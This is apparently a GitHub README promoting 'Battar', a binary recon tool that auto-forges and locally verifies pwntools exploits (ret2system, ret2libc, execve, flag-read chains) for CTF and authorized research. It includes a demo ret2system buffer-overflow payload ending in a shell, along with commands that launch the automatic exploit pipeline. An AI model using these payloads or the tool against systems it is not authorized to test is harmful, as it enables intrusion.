

<div align="center">



<br>

<p>


</p>

<br>

<svg width="100%" height="80" viewBox="0 0 700 80" xmlns="http://www.w3.org/2000/svg" style="max-width:700px;">
<defs>
<filter id="termGlow">
<feGaussianBlur stdDeviation="2" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>
<rect width="700" height="80" fill="#0a0a0a" stroke="#333" stroke-width="1" rx="6"/>
<rect x="0" y="0" width="700" height="22" fill="#1a1a1a" rx="6"/>
<circle cx="15" cy="11" r="4" fill="#ff5f56"/>
<circle cx="30" cy="11" r="4" fill="#ffbd2e"/>
<circle cx="45" cy="11" r="4" fill="#27c93f"/>
<text x="350" y="15" text-anchor="middle" font-family="monospace" font-size="10" fill="#666">battar / بتّار — red-core toolkit</text>

<text x="20" y="50" font-family="monospace" font-size="13" fill="#4ade80" filter="url(#termGlow)">
<tspan fill="#ff2a2a">$</tspan>
<tspan dx="8" fill="#ccc">battar ./chall --section exploit --auto-offset</tspan>
<animate attributeName="opacity" values="1;0.3;1" dur="1s" begin="3s" repeatCount="indefinite"/>
</text>

<rect x="560" y="39" width="8" height="14" fill="#4ade80" opacity="0">
<animate attributeName="opacity" values="0;1;0" dur="0.8s" begin="3.5s" repeatCount="indefinite"/>
</rect>

<text x="20" y="68" font-family="monospace" font-size="11" fill="#888" opacity="0">
[✓] VERIFIED WORKING — shell confirmed
<animate attributeName="opacity" from="0" to="1" dur="0.8s" begin="4.5s" fill="freeze"/>
</text>
</svg>

<br><br>

> <strong><em>"The blade that doesn't just point at the target — it cuts."</em></strong>

<strong><em>"A sword that stays sheathed teaches nothing — steel is judged only by what it has cut."</em></strong>

**Static & dynamic recon for ELF and PE binaries — built for exploit development.**

<p>
<a href="#️-what-is-battar--بتّار">What is it</a> •
<a href="#️-strike-patterns">Strike patterns</a> •
<a href="#-dynamic-verification">Dynamic verification</a> •
<a href="#-recon-matrix">Recon matrix</a> •
<a href="#️-installation">Install</a> •
<a href="#️-usage">Usage</a> •
<a href="#-live-demo">Demo</a> •
<a href="#️-legal--ethical-use">Ethics</a>
</p>

</div>

---

## 🗡️ What is Battar / بتّار?

`battar` / `بتّار` is a single-file Python CLI that replaces your entire exploit-development recon chain. It doesn't just *describe* a binary's weaknesses — it **forges working exploits** and **verifies them live** before ever handing you a script.

| What others do | What Battar / بتّار does |
| :--- | :--- |
| `checksec` says "no canary" | *"No canary → classic overflow viable → here's the exploit"* |
| `strings` dumps raw output | Auto-flags **19 secret categories** (keys, JWTs, wallets, credentials) |
| ROPgadget lists gadgets | Builds complete `ret2libc` chains with real addresses already filled in |
| Template generators print code | **Runs the exploit locally**, confirms the shell, *then* shows it to you |

Every result is backed by evidence pulled straight from the binary — no guesswork, no hand-waving.

---

## ⚔️ Strike Patterns

<strong><em>"Every bladesmith of old knew a single sword could not answer every duel — so they forged more than one edge, each for its own kind of fight."</em></strong>

Battar / بتّار detects which of four exploitation strategies apply and auto-forges a ready-to-run `pwntools` script for each:

<div align="center">

<table>
<tr>
<td>

<svg width="300" height="140" viewBox="0 0 300 140" xmlns="http://www.w3.org/2000/svg">
<defs>
<linearGradient id="cardA" x1="0%" y1="0%" x2="100%" y2="100%">
<stop offset="0%" stop-color="#1a0000"/>
<stop offset="100%" stop-color="#0d0d0d"/>
</linearGradient>
<filter id="cardGlowA">
<feGaussianBlur stdDeviation="3" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>
<rect width="300" height="140" fill="url(#cardA)" stroke="#ff2a2a" stroke-width="1.5" rx="8" filter="url(#cardGlowA)"/>
<rect x="1" y="1" width="298" height="138" fill="none" stroke="#ff2a2a" stroke-width="0.5" rx="7" opacity="0">
<animate attributeName="opacity" values="0;0.8;0" dur="2s" repeatCount="indefinite"/>
</rect>
<text x="150" y="35" text-anchor="middle" font-family="monospace" font-size="16" font-weight="bold" fill="#ff2a2a" filter="url(#cardGlowA)">STRATEGY A</text>
<text x="150" y="62" text-anchor="middle" font-family="monospace" font-size="12" fill="#ddd">Direct ret2system</text>
<text x="150" y="88" text-anchor="middle" font-family="monospace" font-size="10" fill="#888">system() + "/bin/sh" in binary</text>
<text x="150" y="115" text-anchor="middle" font-family="monospace" font-size="11" fill="#4ade80" font-weight="bold">✗ NO LEAK NEEDED</text>
<path d="M 10 10 L 30 10 L 30 14 L 14 14 L 14 30 L 10 30 Z" fill="#ff2a2a" opacity="0.6"/>
<path d="M 290 10 L 270 10 L 270 14 L 286 14 L 286 30 L 290 30 Z" fill="#ff2a2a" opacity="0.6"/>
<circle cx="150" cy="70" r="50" fill="none" stroke="#ff2a2a" stroke-width="0.5" opacity="0">
<animate attributeName="r" from="35" to="65" dur="2.5s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="0.5;0;0.5" dur="2.5s" repeatCount="indefinite"/>
</circle>
</svg>

</td>
<td>

<svg width="300" height="140" viewBox="0 0 300 140" xmlns="http://www.w3.org/2000/svg">
<defs>
<linearGradient id="cardB" x1="0%" y1="0%" x2="100%" y2="100%">
<stop offset="0%" stop-color="#1a0a00"/>
<stop offset="100%" stop-color="#0d0d0d"/>
</linearGradient>
<filter id="cardGlowB">
<feGaussianBlur stdDeviation="3" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>
<rect width="300" height="140" fill="url(#cardB)" stroke="#ff9500" stroke-width="1.5" rx="8" filter="url(#cardGlowB)"/>
<rect x="1" y="1" width="298" height="138" fill="none" stroke="#ff9500" stroke-width="0.5" rx="7" opacity="0">
<animate attributeName="opacity" values="0;0.8;0" dur="2.8s" repeatCount="indefinite"/>
</rect>
<text x="150" y="35" text-anchor="middle" font-family="monospace" font-size="16" font-weight="bold" fill="#ff9500" filter="url(#cardGlowB)">STRATEGY B</text>
<text x="150" y="62" text-anchor="middle" font-family="monospace" font-size="12" fill="#ddd">Leak, then ret2system</text>
<text x="150" y="88" text-anchor="middle" font-family="monospace" font-size="10" fill="#888">puts/printf available to leak libc</text>
<text x="150" y="115" text-anchor="middle" font-family="monospace" font-size="11" fill="#fbbf24" font-weight="bold">✓ LEAK REQUIRED</text>
<path d="M 10 10 L 30 10 L 30 14 L 14 14 L 14 30 L 10 30 Z" fill="#ff9500" opacity="0.6"/>
<path d="M 290 10 L 270 10 L 270 14 L 286 14 L 286 30 L 290 30 Z" fill="#ff9500" opacity="0.6"/>
<circle cx="150" cy="70" r="50" fill="none" stroke="#ff9500" stroke-width="0.5" opacity="0">
<animate attributeName="r" from="35" to="65" dur="3s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="0.5;0;0.5" dur="3s" repeatCount="indefinite"/>
</circle>
</svg>

</td>
</tr>
<tr>
<td>

<svg width="300" height="140" viewBox="0 0 300 140" xmlns="http://www.w3.org/2000/svg">
<defs>
<linearGradient id="cardC" x1="0%" y1="0%" x2="100%" y2="100%">
<stop offset="0%" stop-color="#0a001a"/>
<stop offset="100%" stop-color="#0d0d0d"/>
</linearGradient>
<filter id="cardGlowC">
<feGaussianBlur stdDeviation="3" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>
<rect width="300" height="140" fill="url(#cardC)" stroke="#a855f7" stroke-width="1.5" rx="8" filter="url(#cardGlowC)"/>
<rect x="1" y="1" width="298" height="138" fill="none" stroke="#a855f7" stroke-width="0.5" rx="7" opacity="0">
<animate attributeName="opacity" values="0;0.8;0" dur="2.2s" repeatCount="indefinite"/>
</rect>
<text x="150" y="35" text-anchor="middle" font-family="monospace" font-size="16" font-weight="bold" fill="#a855f7" filter="url(#cardGlowC)">STRATEGY C</text>
<text x="150" y="62" text-anchor="middle" font-family="monospace" font-size="12" fill="#ddd">Raw execve() syscall</text>
<text x="150" y="88" text-anchor="middle" font-family="monospace" font-size="10" fill="#888">"/bin/sh" + syscall gadgets in binary</text>
<text x="150" y="115" text-anchor="middle" font-family="monospace" font-size="11" fill="#4ade80" font-weight="bold">✗ NO LIBC NEEDED</text>
<path d="M 10 10 L 30 10 L 30 14 L 14 14 L 14 30 L 10 30 Z" fill="#a855f7" opacity="0.6"/>
<path d="M 290 10 L 270 10 L 270 14 L 286 14 L 286 30 L 290 30 Z" fill="#a855f7" opacity="0.6"/>
<circle cx="150" cy="70" r="50" fill="none" stroke="#a855f7" stroke-width="0.5" opacity="0">
<animate attributeName="r" from="35" to="65" dur="2.7s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="0.5;0;0.5" dur="2.7s" repeatCount="indefinite"/>
</circle>
</svg>

</td>
<td>

<svg width="300" height="140" viewBox="0 0 300 140" xmlns="http://www.w3.org/2000/svg">
<defs>
<linearGradient id="cardD" x1="0%" y1="0%" x2="100%" y2="100%">
<stop offset="0%" stop-color="#001a1a"/>
<stop offset="100%" stop-color="#0d0d0d"/>
</linearGradient>
<filter id="cardGlowD">
<feGaussianBlur stdDeviation="3" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>
<rect width="300" height="140" fill="url(#cardD)" stroke="#06b6d4" stroke-width="1.5" rx="8" filter="url(#cardGlowD)"/>
<rect x="1" y="1" width="298" height="138" fill="none" stroke="#06b6d4" stroke-width="0.5" rx="7" opacity="0">
<animate attributeName="opacity" values="0;0.8;0" dur="3s" repeatCount="indefinite"/>
</rect>
<text x="150" y="35" text-anchor="middle" font-family="monospace" font-size="16" font-weight="bold" fill="#06b6d4" filter="url(#cardGlowD)">STRATEGY D</text>
<text x="150" y="62" text-anchor="middle" font-family="monospace" font-size="12" fill="#ddd">open→read→write flag chain</text>
<text x="150" y="88" text-anchor="middle" font-family="monospace" font-size="10" fill="#888">CTF flag + syscall gadgets + .bss</text>
<text x="150" y="115" text-anchor="middle" font-family="monospace" font-size="11" fill="#4ade80" font-weight="bold">✗ NO LEAK NEEDED</text>
<path d="M 10 10 L 30 10 L 30 14 L 14 14 L 14 30 L 10 30 Z" fill="#06b6d4" opacity="0.6"/>
<path d="M 290 10 L 270 10 L 270 14 L 286 14 L 286 30 L 290 30 Z" fill="#06b6d4" opacity="0.6"/>
<circle cx="150" cy="70" r="50" fill="none" stroke="#06b6d4" stroke-width="0.5" opacity="0">
<animate attributeName="r" from="35" to="65" dur="3.2s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="0.5;0;0.5" dur="3.2s" repeatCount="indefinite"/>
</circle>
</svg>

</td>
</tr>
</table>

</div>

Every forged exploit:

- Auto-fills `system@plt`, gadget addresses, and GOT entries
- Detects `pop rdi; ret` in both the binary **and** the resolved libc
- Prefers combined multi-register gadgets for shorter, more reliable chains
- Warns when PIE or a stack canary breaks the naive approach
- **Self-verifies** — runs against the target, confirms shell/flag, and reports success or the exact failure reason

---

## 💀 Dynamic Verification

<strong><em>"No smith of old ever sold a blade untested — the edge was proven against the target before it was ever handed to its bearer."</em></strong>

<div align="center">

<svg width="100%" height="360" viewBox="0 0 750 360" xmlns="http://www.w3.org/2000/svg" style="max-width:750px;">
<defs>
<linearGradient id="ecgGrad" x1="0%" y1="0%" x2="0%" y2="100%">
<stop offset="0%" stop-color="#ff2a2a"/>
<stop offset="100%" stop-color="#8b0000"/>
</linearGradient>
<filter id="ecgGlow">
<feGaussianBlur stdDeviation="2" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>

<rect width="750" height="360" fill="#0a0a0a" rx="10" stroke="#222" stroke-width="1"/>

<g stroke="#1a1a1a" stroke-width="0.5">
<line x1="0" y1="60" x2="750" y2="60"/>
<line x1="0" y1="120" x2="750" y2="120"/>
<line x1="0" y1="180" x2="750" y2="180"/>
<line x1="0" y1="240" x2="750" y2="240"/>
<line x1="0" y1="300" x2="750" y2="300"/>
<line x1="150" y1="0" x2="150" y2="360"/>
<line x1="300" y1="0" x2="300" y2="360"/>
<line x1="450" y1="0" x2="450" y2="360"/>
<line x1="600" y1="0" x2="600" y2="360"/>
</g>

<path d="M 40 60 L 90 60 L 100 30 L 110 90 L 120 60 L 150 60
L 160 60 L 170 30 L 180 90 L 190 60 L 220 60
L 230 60 L 240 30 L 250 90 L 260 60 L 290 60
L 300 60 L 310 30 L 320 90 L 330 60 L 360 60
L 370 60 L 380 30 L 390 90 L 400 60 L 430 60
L 440 60 L 450 30 L 460 90 L 470 60 L 500 60
L 510 60 L 520 30 L 530 90 L 540 60 L 570 60
L 580 60 L 590 30 L 600 90 L 610 60 L 640 60
L 650 60 L 660 30 L 670 90 L 680 60 L 710 60"
fill="none" stroke="#ff2a2a" stroke-width="2" filter="url(#ecgGlow)" opacity="0.8">
<animate attributeName="stroke-dasharray" from="0,2000" to="2000,0" dur="3s" fill="freeze"/>
<animate attributeName="opacity" values="0.8;0.4;0.8" dur="1.5s" begin="3s" repeatCount="indefinite"/>
</path>

<g>
<circle cx="75" cy="60" r="10" fill="#ff2a2a" filter="url(#ecgGlow)">
<animate attributeName="r" values="10;14;10" dur="2s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="1;0.6;1" dur="2s" repeatCount="indefinite"/>
</circle>
<text x="75" y="55" text-anchor="middle" font-family="monospace" font-size="10" fill="#fff" font-weight="bold">1</text>
<text x="75" y="95" text-anchor="middle" font-family="monospace" font-size="10" fill="#ff2a2a">FUZZ</text>
<text x="75" y="110" text-anchor="middle" font-family="monospace" font-size="9" fill="#666">De Bruijn</text>
</g>

<g>
<circle cx="225" cy="60" r="10" fill="#ff6b35" filter="url(#ecgGlow)">
<animate attributeName="r" values="10;14;10" dur="2.2s" repeatCount="indefinite"/>
</circle>
<text x="225" y="55" text-anchor="middle" font-family="monospace" font-size="10" fill="#fff" font-weight="bold">2</text>
<text x="225" y="95" text-anchor="middle" font-family="monospace" font-size="10" fill="#ff6b35">CORE</text>
<text x="225" y="110" text-anchor="middle" font-family="monospace" font-size="9" fill="#666">Extract offset</text>
</g>

<g>
<circle cx="375" cy="60" r="10" fill="#fbbf24" filter="url(#ecgGlow)">
<animate attributeName="r" values="10;14;10" dur="2.4s" repeatCount="indefinite"/>
</circle>
<text x="375" y="55" text-anchor="middle" font-family="monospace" font-size="10" fill="#fff" font-weight="bold">3</text>
<text x="375" y="95" text-anchor="middle" font-family="monospace" font-size="10" fill="#fbbf24">DETECT</text>
<text x="375" y="110" text-anchor="middle" font-family="monospace" font-size="9" fill="#666">Canary vs real</text>
</g>

<g>
<circle cx="525" cy="60" r="10" fill="#a855f7" filter="url(#ecgGlow)">
<animate attributeName="r" values="10;14;10" dur="2.6s" repeatCount="indefinite"/>
</circle>
<text x="525" y="55" text-anchor="middle" font-family="monospace" font-size="10" fill="#fff" font-weight="bold">4</text>
<text x="525" y="95" text-anchor="middle" font-family="monospace" font-size="10" fill="#a855f7">VERIFY</text>
<text x="525" y="110" text-anchor="middle" font-family="monospace" font-size="9" fill="#666">Shell/flag check</text>
</g>

<g>
<circle cx="675" cy="60" r="10" fill="#4ade80" filter="url(#ecgGlow)">
<animate attributeName="r" values="10;14;10" dur="2.8s" repeatCount="indefinite"/>
</circle>
<text x="675" y="55" text-anchor="middle" font-family="monospace" font-size="10" fill="#fff" font-weight="bold">5</text>
<text x="675" y="95" text-anchor="middle" font-family="monospace" font-size="10" fill="#4ade80">FIX</text>
<text x="675" y="110" text-anchor="middle" font-family="monospace" font-size="9" fill="#666">movaps align</text>
</g>

<text x="375" y="160" text-anchor="middle" font-family="monospace" font-size="11" fill="#888">
<tspan x="375" dy="0">Progressively longer cyclic patterns → crash target → read corefile</tspan>
<tspan x="375" dy="20">Extract exact offset from clobbered registers (PC, RBP, general-purpose)</tspan>
<tspan x="375" dy="20">Distinguish real overflow from canary-killed attempts via SIGABRT</tspan>
<tspan x="375" dy="20">Forge exploit → execute → confirm shell response or flag content</tspan>
<tspan x="375" dy="20">Auto-fix x86-64 movaps alignment with retry + alignment gadget</tspan>
</text>

<rect x="30" y="330" width="0" height="4" fill="url(#ecgGrad)" rx="2">
<animate attributeName="width" from="0" to="690" dur="6s" repeatCount="indefinite"/>
</rect>
<text x="375" y="320" text-anchor="middle" font-family="monospace" font-size="9" fill="#444">EXECUTION PIPELINE ACTIVE</text>
</svg>

</div>

> ⚠️ **Safety:** `--auto-offset` executes the target **locally**. It is off by default. Only run it against binaries you own or are explicitly authorized to test.

---

## 📋 Recon Matrix

<div align="center">

| Section | ELF | PE |
| :--- | :---: | :---: |
| **Build Info** — compiler, linker, Build ID, PDB path | ✓ | ✓ |
| **Packer Detection** — UPX, ASPack, Themida, VMProtect, entropy heuristics | ✓ | ✓ |
| **Entropy Analysis** — overall + per-section Shannon entropy with visual bars | ✓ | ✓ |
| **Symbols / Functions / PLT / GOT** | ✓ | — |
| **Sections / Imports / Exports** | — | ✓ |
| **Strings** — fast in-process extraction, no shell-out | ✓ | ✓ |
| **Interesting Strings** — 19 auto-flagged secret categories | ✓ | ✓ |
| **Dangerous Functions** — 40+ risky APIs, ranked by severity with reasons | ✓ | ✓ |
| **ROP Gadgets** — byte-level search across binary + resolved libc | ✓ | — |
| **Exploit Helper (A–D)** | ✓ x86 / x86-64 | — |
| **Dynamic Verification** | ✓ x86-64 (full), x86 (offset only) | — |

</div>

---

## 📦 Requirements

- Python 3.8+
- Linux (dynamic verification and corefile analysis target Linux ELF binaries)
- `gdb` installed for corefile-based offset detection

## ⚙️ Installation

```bash
# Dependencies
pip install pwntools pefile capstone

# Optional but recommended for corefile analysis
sudo apt install gdb

# Clone
git clone https://github.com/Mostafa-Galal-sudo/BattaR.git
cd BattaR

# Install as a system-wide `battar` command
chmod +x battar.py
sudo cp battar.py /usr/local/bin/battar

# Run from anywhere
battar <binary> [options]
```

---

## 🖥️ Usage

```bash
# Full recon, no truncation
battar ./chall --all

# Exploit-relevant sections only
battar ./chall --section dangerous exploit gadgets

# Generate AND verify a working exploit locally
battar ./chall --section exploit --auto-offset

# Wider crash-detection window for heavy binaries
battar ./chall --section exploit --auto-offset --auto-offset-timeout 15

# Deep secret hunting in a PE
battar ./suspicious.exe --section interesting --min-len 6 --all

# Stripped static binary — what still leaks?
battar ./target_stripped --section build packer entropy dangerous gadgets --all
```

### CLI Reference

| Flag | Description |
| :--- | :--- |
| `--section NAME [NAME ...]` | Run only these sections (space-separated). File info & protections always print. |
| `--all` | Show every entry; disable the 40-row truncation |
| `--limit N` | Rows per section before truncating (default: `40`) |
| `--min-len N` | Minimum string length for `--section strings` (default: `4`) |
| `--auto-offset` | **Execute target locally** to detect the overflow offset & verify the exploit |
| `--auto-offset-timeout N` | Crash-detection timeout per attempt, in seconds (default: `5`) |

**Valid sections:** `build`, `packer`, `entropy`, `functions`, `symbols`, `plt`, `got`, `sections`, `imports`, `exports`, `strings`, `interesting`, `dangerous`, `exploit`, `gadgets`

---

## 🩸 Live Demo

```text
 PROTECTIONS (checksec)
══════════════════════════════════════════════════════════════════════
  NX                    Enabled
     └─ Stack is non-executable, need ROP/ret2libc instead of direct shellcode
  Canary                Disabled
     └─ No protection on the return address, a classic buffer overflow may work directly
  ...

 EXPLOIT HELPER (ret2libc / ret2system)
══════════════════════════════════════════════════════════════════════
  system() in PLT           Yes
  "/bin/sh" in binary       Yes
  pop rdi; ret (binary)     0x40115e

  [!] --auto-offset: running the target locally with a cyclic pattern (timeout 5s)...
  [+] Detected OFFSET = 72 (crash via rbp=0x6161617261616171, cyclic offset 64 (+8))

  Strategy A: Direct ret2system (no leak needed)

  from pwn import *

  elf = ELF('./chall')
  p = process(elf.path)

  OFFSET = 72              # auto-detected via --auto-offset
  POP_RDI = 0x40115e       # pop rdi; ret (found in the binary)

  payload  = b'A' * OFFSET
  payload += p64(POP_RDI)
  payload += p64(0x402004)   # "/bin/sh" found inside the binary
  payload += p64(0x401054)   # system@plt

  p.sendline(payload)
  p.interactive()

  [✓] VERIFIED WORKING locally — shell confirmed (echo marker received back)

 RISK SUMMARY
══════════════════════════════════════════════════════════════════════
  Format            ELF
  NX                ✓ Enabled
  Canary            ✗ Disabled
  Exploit path      ret2system (direct, no leak)

  Overall verdict   [ HIGH RISK ]
```

---

<div align="center">

<svg width="100%" height="180" viewBox="0 0 600 180" xmlns="http://www.w3.org/2000/svg" style="max-width:600px;">
<defs>
<linearGradient id="riskGrad" x1="0%" y1="0%" x2="100%" y2="0%">
<stop offset="0%" stop-color="#22c55e"/>
<stop offset="40%" stop-color="#eab308"/>
<stop offset="70%" stop-color="#f97316"/>
<stop offset="100%" stop-color="#dc2626"/>
</linearGradient>
<filter id="riskGlow">
<feGaussianBlur stdDeviation="3" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>

<rect width="600" height="180" fill="#0a0a0a" rx="10"/>

<rect x="50" y="80" width="500" height="24" fill="#1a1a1a" rx="12" stroke="#333" stroke-width="1"/>

<rect x="50" y="80" width="0" height="24" fill="url(#riskGrad)" rx="12" filter="url(#riskGlow)">
<animate attributeName="width" from="0" to="425" dur="2.5s" fill="freeze"/>
<animate attributeName="opacity" values="0.9;1;0.9" dur="1s" begin="2.5s" repeatCount="indefinite"/>
</rect>

<line x1="50" y1="110" x2="50" y2="118" stroke="#444" stroke-width="1"/>
<line x1="216" y1="110" x2="216" y2="118" stroke="#444" stroke-width="1"/>
<line x1="383" y1="110" x2="383" y2="118" stroke="#444" stroke-width="1"/>
<line x1="550" y1="110" x2="550" y2="118" stroke="#444" stroke-width="1"/>

<text x="50" y="135" font-family="monospace" font-size="10" fill="#22c55e">LOW</text>
<text x="216" y="135" text-anchor="middle" font-family="monospace" font-size="10" fill="#eab308">MEDIUM</text>
<text x="383" y="135" text-anchor="middle" font-family="monospace" font-size="10" fill="#f97316">HIGH</text>
<text x="550" y="135" text-anchor="end" font-family="monospace" font-size="10" fill="#dc2626">CRITICAL</text>

<polygon points="50,68 50,76 60,72" fill="#fff" opacity="0">
<animate attributeName="points" from="50,68 50,76 60,72" to="465,68 465,76 475,72" dur="2.5s" fill="freeze"/>
<animate attributeName="opacity" from="0" to="1" dur="0.3s" begin="2s" fill="freeze"/>
</polygon>
<circle cx="50" cy="72" r="5" fill="#fff" opacity="0">
<animate attributeName="cx" from="50" to="465" dur="2.5s" fill="freeze"/>
<animate attributeName="opacity" from="0" to="1" dur="0.3s" begin="2s" fill="freeze"/>
<animate attributeName="r" values="5;7;5" dur="1s" begin="2.5s" repeatCount="indefinite"/>
</circle>

<g opacity="0">
<animate attributeName="opacity" values="0;1;0" dur="0.6s" begin="2.8s" repeatCount="indefinite"/>
<circle cx="465" cy="55" r="2" fill="#ff2a2a"/>
<circle cx="475" cy="50" r="1.5" fill="#ff6600"/>
<circle cx="455" cy="48" r="2" fill="#ffcc00"/>
<circle cx="470" cy="42" r="1" fill="#ff2a2a"/>
<circle cx="460" cy="45" r="1.5" fill="#ff6600"/>
</g>

<text x="300" y="165" text-anchor="middle" font-family="monospace" font-size="20" font-weight="bold" fill="#dc2626" opacity="0" filter="url(#riskGlow)">
⚠ HIGH RISK DETECTED
<animate attributeName="opacity" from="0" to="1" dur="0.5s" begin="2.7s" fill="freeze"/>
<animate attributeName="opacity" values="1;0.4;1" dur="0.8s" begin="3.5s" repeatCount="indefinite"/>
</text>
</svg>

</div>

---

## 🛡️ Design Philosophy

<strong><em>"The finest swords of history bore no ornament that did not serve the cut — every fuller, every taper, existed to make the blade truer."</em></strong>

- **Nothing without evidence.** Missing gadget? It prints `<FILL IN>` and tells you exactly how to find it. Verification failed? It reports the actual reason — never a silent fallback.
- **Byte-pattern gadget search.** Any address with the right bytes is a valid ROP target — a plain byte scan across `.text` is correct, fast, and needs no disassembler.
- **Truncated by default, complete on demand.** Every listing caps at 40 rows with a clear "N more not shown" note; `--all` removes the cap entirely.

---

## ⚖️ Legal & Ethical Use

Battar / بتّار is built for **authorized security research, CTF competitions, and testing binaries you own**. The `--auto-offset` exploit-verification pipeline executes the target on your own machine — it never touches a remote host on your behalf.

Running this tool, or any exploit it generates, against systems you do not own or do not have explicit written authorization to test is illegal in most jurisdictions. You are responsible for how you use it.

## 🤝 Contributing

Issues and pull requests are welcome — new strike patterns, additional secret categories, PE-side exploit support, and bug reports are all fair game. Please include a minimal reproducible binary (or the CTF challenge, if shareable) with any bug report involving the exploit helper.

## 📄 License

Released under the [MIT License](LICENSE).

---

<div align="center">

<br>

<svg width="100%" height="200" viewBox="0 0 500 200" xmlns="http://www.w3.org/2000/svg" style="max-width:500px;">
<defs>
<radialGradient id="shockGrad" cx="50%" cy="50%" r="50%">
<stop offset="0%" stop-color="#ff2a2a" stop-opacity="0.8"/>
<stop offset="50%" stop-color="#ff2a2a" stop-opacity="0.2"/>
<stop offset="100%" stop-color="#ff2a2a" stop-opacity="0"/>
</radialGradient>
<filter id="finalGlow">
<feGaussianBlur stdDeviation="5" result="blur"/>
<feMerge><feMergeNode in="blur"/><feMergeNode in="blur"/><feMergeNode in="SourceGraphic"/></feMerge>
</filter>
</defs>

<rect width="500" height="200" fill="#050505" rx="10"/>

<circle cx="250" cy="100" r="10" fill="none" stroke="#ff2a2a" stroke-width="1" opacity="0">
<animate attributeName="r" from="10" to="120" dur="2s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="0.8;0;0.8" dur="2s" repeatCount="indefinite"/>
</circle>
<circle cx="250" cy="100" r="10" fill="none" stroke="#ff2a2a" stroke-width="0.5" opacity="0">
<animate attributeName="r" from="10" to="120" dur="2s" begin="0.6s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="0.6;0;0.6" dur="2s" begin="0.6s" repeatCount="indefinite"/>
</circle>
<circle cx="250" cy="100" r="10" fill="none" stroke="#ff2a2a" stroke-width="0.5" opacity="0">
<animate attributeName="r" from="10" to="120" dur="2s" begin="1.2s" repeatCount="indefinite"/>
<animate attributeName="opacity" values="0.4;0;0.4" dur="2s" begin="1.2s" repeatCount="indefinite"/>
</circle>

<path d="M 80 160 Q 160 130, 230 105 Q 240 100, 245 98"
fill="none" stroke="#ff2a2a" stroke-width="3" stroke-linecap="round" filter="url(#finalGlow)" opacity="0">
<animate attributeName="stroke-dasharray" from="0,300" to="300,0" dur="1s" begin="0.3s" fill="freeze"/>
<animate attributeName="opacity" from="0" to="1" dur="0.3s" begin="0.3s" fill="freeze"/>
<animate attributeName="opacity" values="1;0.6;1" dur="3s" begin="1.5s" repeatCount="indefinite"/>
</path>

<path d="M 420 160 Q 340 130, 270 105 Q 260 100, 255 98"
fill="none" stroke="#ff2a2a" stroke-width="3" stroke-linecap="round" filter="url(#finalGlow)" opacity="0">
<animate attributeName="stroke-dasharray" from="0,300" to="300,0" dur="1s" begin="0.5s" fill="freeze"/>
<animate attributeName="opacity" from="0" to="1" dur="0.3s" begin="0.5s" fill="freeze"/>
<animate attributeName="opacity" values="1;0.6;1" dur="3s" begin="1.7s" repeatCount="indefinite"/>
</path>

<line x1="75" y1="155" x2="90" y2="168" stroke="#ff2a2a" stroke-width="2" opacity="0">
<animate attributeName="opacity" from="0" to="0.7" dur="0.3s" begin="1.2s" fill="freeze"/>
</line>
<line x1="75" y1="168" x2="90" y2="155" stroke="#ff2a2a" stroke-width="2" opacity="0">
<animate attributeName="opacity" from="0" to="0.7" dur="0.3s" begin="1.3s" fill="freeze"/>
</line>
<line x1="425" y1="155" x2="410" y2="168" stroke="#ff2a2a" stroke-width="2" opacity="0">
<animate attributeName="opacity" from="0" to="0.7" dur="0.3s" begin="1.2s" fill="freeze"/>
</line>
<line x1="425" y1="168" x2="410" y2="155" stroke="#ff2a2a" stroke-width="2" opacity="0">
<animate attributeName="opacity" from="0" to="0.7" dur="0.3s" begin="1.3s" fill="freeze"/>
</line>

<g opacity="0">
<animate attributeName="opacity" values="0;1;0" dur="0.5s" begin="1.4s" repeatCount="indefinite"/>
<circle cx="250" cy="98" r="8" fill="#ffcc00" filter="url(#finalGlow)"/>
<circle cx="260" cy="88" r="3" fill="#ff6600"/>
<circle cx="240" cy="90" r="2.5" fill="#ffcc00"/>
<circle cx="255" cy="85" r="2" fill="#ff3300"/>
<circle cx="245" cy="92" r="2" fill="#ffcc00"/>
<circle cx="265" cy="95" r="1.5" fill="#ff6600"/>
<circle cx="235" cy="95" r="1.5" fill="#ff6600"/>
</g>

<text x="250" y="145" text-anchor="middle" font-family="monospace" font-size="14" fill="#ff2a2a" opacity="0" filter="url(#finalGlow)">
Part of the Battar / بتّار red-core toolkit
<animate attributeName="opacity" from="0" to="1" dur="0.8s" begin="1.8s" fill="freeze"/>
<animate attributeName="opacity" values="1;0.5;1" dur="4s" begin="3s" repeatCount="indefinite"/>
</text>
<text x="250" y="170" text-anchor="middle" font-family="monospace" font-size="11" fill="#666" opacity="0">
Made for the ones who don't stop at recon.
<animate attributeName="opacity" from="0" to="1" dur="0.6s" begin="2.2s" fill="freeze"/>
</text>
</svg>

<strong><em>"A sword is remembered not for the sheath it rested in, but for the battles that proved its edge."</em></strong>

</div>
